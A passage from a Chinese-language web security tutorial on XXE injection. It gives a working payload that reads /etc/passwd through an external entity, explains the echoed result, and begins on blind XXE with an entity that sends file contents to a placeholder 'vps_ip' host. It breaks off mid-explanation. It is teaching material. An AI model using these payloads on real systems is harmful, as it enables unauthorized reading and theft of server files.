 xml内容如下:

```
&lt;?xml version = "1.0"?&gt;
&lt;!DOCTYPE ANY [
    &lt;!ENTITY f SYSTEM "file:///etc/passwd"&gt;
]&gt;
&lt;x&gt;&amp;f;&lt;/x&gt;
```

访问后可得到回显<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0173f714a823a01762.png)这是为什么？<br>
因为

```
&lt;!ENTITY f SYSTEM "file:///etc/passwd"&gt;
```

此处将本地计算机中`file:///etc/passwd`文件的内容取出，赋值给了实体`f`<br>
然后实体`f`的值作为元素`x`中的字符串数据被php解析的时候取出，作为对象里的内容<br>
然后再输出该对象的时候被打印出来。<br>
故此，倘若我们可以控制xml文本内容，那么就能利用编译/脚本语言的解析，输出我们想读的指定文件

### <a class="reference-link" name="XXE-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E7%9B%B2%E8%AF%BB%E5%8F%96"></a>XXE-任意文件盲读取

我们知道在Xml解析内容可以被输出的时候，我们可以采取上述攻击方式<br>
但有时候，xml只作为数据的传递方式，服务端解析xml后，直接将数据进一步处理再输出，甚至不输出，这时候可能就无法得到我们想读的结果。<br>
那么此时，可以尝试使用blind xxe进行攻击：<br>
1.我们可以利用file协议去读取本地文件<br>
2.我们可以利用http协议让实体被带出<br>
我们知道xml中，跟的是url地址

```
&lt;!ENTITY 引用名 SYSTEM(PUBLIC) "URI地址"&gt;
```

那么此时我们当然可以使用http协议，那么xml解析的时候势必会去访问我们指定的url链接<br>
此时就有可能将数据带出<br>
我们想要的方法是这样的

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE root [
&lt;!ENTITY % param1 "file:///etc/passwd"&gt;
&lt;!ENTITY % param2 "http://vps_ip/?%param1"&gt;
%param2;
]&gt;
```

此时xml解析时，就会将我们读取到的内容的param1实体带出，我们再vps的apache log上就可以看到<br>
但是上述构造存在语法问题<br>
于是我们想到这样一个构造方案<br>
post.xml
